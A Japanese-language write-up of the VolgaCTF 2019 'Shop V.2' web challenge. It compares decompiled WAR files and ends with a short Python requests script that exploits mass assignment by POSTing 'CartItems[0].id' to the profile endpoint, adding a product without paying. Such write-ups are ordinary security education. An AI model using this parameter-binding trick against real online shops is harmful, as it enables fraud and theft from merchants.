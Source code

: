 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javatとかごく一部。
単純に買えなくなったというだけの変更に見える。

```bash-statement
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下のの2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。
配列をPOSTするときに「```CartItems[0]```」とかするのもポイントかな。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
